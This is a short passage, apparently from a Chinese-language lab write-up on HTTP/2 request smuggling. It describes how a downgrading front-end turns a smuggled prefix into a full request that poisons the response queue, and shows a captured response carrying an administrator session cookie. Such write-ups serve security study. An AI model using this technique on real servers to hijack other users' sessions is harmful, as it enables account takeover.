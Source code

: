 ![img](assets/1706773318-5e9de1c47208fc714842258660619397.png)

Step 4：随后发送请求，前端服务器在降级期间会将\\r\\n\\r\\n附加到标头的末尾，而这实际上会将走私的前缀转换为完整的请求，从而毒化响应队列

![img](assets/1706773318-21b405f53d5246cb1753a039dfe7d11c.png)

随后我们可以捕获到 administrator 的 Session

```c
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=cyZcKafhXtFXWKThxfViUIkgfRkV9zep; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![img](assets/1706773318-c6cb5c9d15c9f37d5bb254f1286d230a.png)
